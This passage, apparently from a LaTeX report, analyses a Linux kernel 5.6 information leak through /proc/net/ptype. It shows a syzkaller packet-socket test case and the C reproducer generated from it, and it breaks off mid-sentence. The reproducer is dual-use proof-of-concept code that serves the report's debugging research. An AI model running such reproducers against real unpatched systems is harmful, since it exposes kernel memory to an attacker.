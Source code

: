 \documentclass[10pt,twocolumn,a4paper]{article}
\begin{document}
\subsection{Bug Reproduction}
Analysis is done on the customized kit kernel 5.6 which is was from the artifact repository\cite{2}.
Sadly the kernel that kit used is not suitable for custom debugging.
The test case that caused the bug given from syzcaller is the following: 
\begin{lstlisting}{caption=sender test case}
r0 = socket$packet(0x11, 0x2, 0x300)
bind$packet(r0, 
    &(0x7f0000000100)={0x11, 0xc, 0x0, 0x1, 0x0, 0x6,
    @multicast}, 0x14)
bind$packet(r0, 
&(0x7f0000000040)={0x11, 0x7, 0x0, 0x1, 0x0, 0x6,
@broadcast}, 0x14)
\end{lstlisting}
The receiver test case can also be taken from syzcaller but the process is tedious error prone and
we already now that the leakage happens in the /proc/net/ptype. Thus we can use cat.
Syzcaller provides tools to convert the testcase to C code. 
\begin{lstlisting}
// autogenerated by syzkaller (https://github.com/google/syzkaller)

#define _GNU_SOURCE

#include <endian.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <unistd.h>

uint64_t r[1] = {0xffffffffffffffff};

int main(void)
{
  syscall(__NR_mmap, 0x1ffff000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);
  syscall(__NR_mmap, 0x20000000ul, 0x1000000ul, 7ul, 0x32ul, -1, 0ul);
  syscall(__NR_mmap, 0x21000000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);
  intptr_t res = 0;
  res = syscall(__NR_socket, 0x11ul, 2ul, 0x300);
  if (res != -1)
    r[0] = res;
  *(uint16_t*)0x20000100 = 0x11;
  *(uint16_t*)0x20000102 = htobe16(0xc);
  *(uint32_t*)0x20000104 = 0;
  *(uint16_t*)0x20000108 = 1;
  *(uint8_t*)0x2000010a = 0;
  *(uint8_t*)0x2000010b = 6;
  memset((void*)0x2000010c, 187, 6);
  memset((void*)0x20000112, 0, 2);
  syscall(__NR_bind, r[0], 0x20000100ul, 0x14ul);
  *(uint16_t*)0x20000040 = 0x11;
  *(uint16_t*)0x20000042 = htobe16(7);
  *(uint32_t*)0x20000044 = 0;
  *(uint16_t*)0x20000048 = 1;
  *(uint8_t*)0x2000004a = 0;
  *(uint8_t*)0x2000004b = 6;
  memset((void*)0x2000004c, 255, 6);
  memset((void*)0x20000052, 0, 2);
  syscall(__NR_bind, r[0], 0x20000040ul, 0x14ul);
  return 0;
}
\end{lstlisting}
This code does not work since after the process terminates its artifacts are removed and thus we
\end{document}
